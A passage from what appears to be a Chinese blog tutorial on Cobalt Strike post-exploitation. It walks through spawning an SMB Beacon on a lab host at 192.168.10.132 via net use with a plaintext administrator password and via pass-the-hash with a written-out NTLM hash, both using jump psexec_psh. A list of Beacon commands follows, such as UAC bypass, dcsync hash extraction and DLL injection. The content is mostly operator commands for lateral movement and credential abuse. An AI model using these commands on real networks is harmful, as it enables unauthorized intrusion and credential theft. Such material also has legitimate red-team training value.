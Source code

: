 
![](https://img-blog.csdnimg.cn/20201124234730725.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**利用明文密码让其上线SMB Beacon**



先建立一个IPC连接，然后连接：



```
shell net use \\192.168.10.132 /u:administrator root      
jump psexec_psh 192.168.10.132 SMB_Beacon       
取消连接      
unlink 192.168.10.132       
如果是域内      
shell net use \\192.168.10.132 /u:xie\administrator root
```




![](https://img-blog.csdnimg.cn/20210125220754977.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20201124234828424.png)



**利用密码哈希上线SMB Beacon**



```
rev2self      
pth WIN2003\Administrator 329153f560eb329c0e1deea55e88a1e9      
jump psexec_psh 192.168.10.132 SMB_Beacon       
取消连接      
unlink 192.168.10.132
```




![](https://img-blog.csdnimg.cn/20201125001710380.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



CobaltStrike常见命令

----------------



```
BeaconCommands      
===============      
    Command                   Description      
    -------                   -----------      
    browserpivot              注入受害者浏览器进程      
    bypassuac                 绕过UAC      
    cancel                    取消正在进行的下载      
    cd                        切换目录      
    checkin                   强制让被控端回连一次      1
    clear                     清除beacon内部的任务队列      1
    connect                   Connect to a Beacon peerover TCP      1
    covertvpn                 部署Covert VPN客户端      1
    cp                        复制文件      1
    dcsync                    从DC中提取密码哈希      1
    desktop                   远程VNC      1
    dllinject                 反射DLL注入进程      1
    dllload                   使用LoadLibrary将DLL加载到进程中      1
    download                  下载文件      1
```
